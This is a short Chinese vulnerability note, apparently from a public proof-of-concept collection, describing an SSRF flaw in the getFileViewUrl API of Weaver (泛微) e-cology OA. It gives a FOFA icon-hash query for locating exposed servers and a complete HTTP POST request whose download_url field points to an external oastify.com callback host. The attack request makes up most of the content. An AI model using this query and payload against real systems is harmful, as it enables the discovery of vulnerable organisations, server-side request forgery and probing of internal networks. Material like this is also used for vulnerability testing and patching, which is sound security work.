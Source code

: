 **fofa**

```
icon_hash="1578525679"
```

**一、漏洞简述**

泛微OA是一个专注于协同管理软件领域的公司，成立于2001年，总部位于上海。泛微OA致力于帮助组织构建统一的数字化运营平台，提供包括e-cology、e-office、eteams、e-nation等在内的产品系列，覆盖大中型企业和中小型企业的需求，以及一体化的移动办公云OA平台。其接口getFileViewUrl存在SSRF漏洞，攻击者可通过该漏洞读取系统信息和探测内网信息。

**二、漏洞检测poc**

```yaml

POST /api/doc/mobile/fileview/getFileViewUrl HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 126

{
    "file_id": "1",
    "file_name": "2",
    "download_url":"http://123.njaw3tvf9q2jgyvtkusegt80ur0io9cy.oastify.com"
}
```

